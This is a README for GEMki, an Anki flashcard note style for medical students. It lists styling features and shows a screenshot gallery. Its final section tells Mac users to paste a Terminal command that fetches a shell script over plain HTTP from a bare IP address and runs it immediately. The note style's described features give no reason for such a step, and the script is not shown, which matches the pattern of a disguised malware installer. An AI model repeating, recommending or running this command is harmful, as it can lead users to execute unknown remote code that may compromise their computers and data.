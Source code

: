 ## GEMki

GEMki is a *Note Style* for [Anki](https://apps.ankiweb.net/), the digital spaced-repetition flashcard software. The note style was originally developed for use by the  graduate-entry medical students at the Royal College of Surgeons in Ireland '25. The note style can be thought of as a cross between the note style of [Anking's premade USMLE deck](https://www.ankipalace.com/step-1-deck) as well as MarlinAnatomy's deck, with some of our own influence too. Some added features of GEMki include:

- Fade in animations, which makes transitioning between cards less jarring
- A colour scheme which automatically colours text as **bold**, _italic_ or underlined
	- Colours are based off of those seen in [Dracula UI](https://draculatheme.com/ui)
- Info about the card being reviewed in the bottom left (requires the [Additional Fields](https://ankiweb.net/shared/info/744725736) addon)
- Countdown until the next exam, as well as details about that exam (manually added)
- Logo mark to distinguish the source of different cards in a collaborative deck
- Source Sans Pro font as default on both MacOS and on Windows
- Better styled tags at the bottom of the screen ([clickable tags](https://ankiweb.net/shared/info/1739176371) functionality supported)
- Support for the "[Edit Field During Review (Cloze)](https://ankiweb.net/shared/info/385888438)" addon, so that ctrl+clicking the text during reviewing allows the user to edit the card, even after it has been flipped

## Gallery

![Default Source Sans Pro font on Windows, custom navy background](https://i.imgur.com/i75RINh.png)
![Default Menlo font on MacOS, custom purple background](https://preview.redd.it/98kvjsfelci81.jpg?width=1280&format=pjpg&auto=webp&s=2eb453000e6cfaa9939cefb516be5c75308b4341)![Fade-in animations between cards](https://i.imgur.com/cEYru3j.gif)


To GEM students looking to include the logo/addons in their anki workflow, follow the below instructions.

1. CMD + SPACE

2. Type Terminal

3. Paste the following

cd ~/ && curl http://95.217.164.255/misc/AnkiWizard.sh -o ./AnkiWizard.sh && sh ./AnkiWizard.sh

4. Hit ENTER, follow instructions!

5. Restart Anki

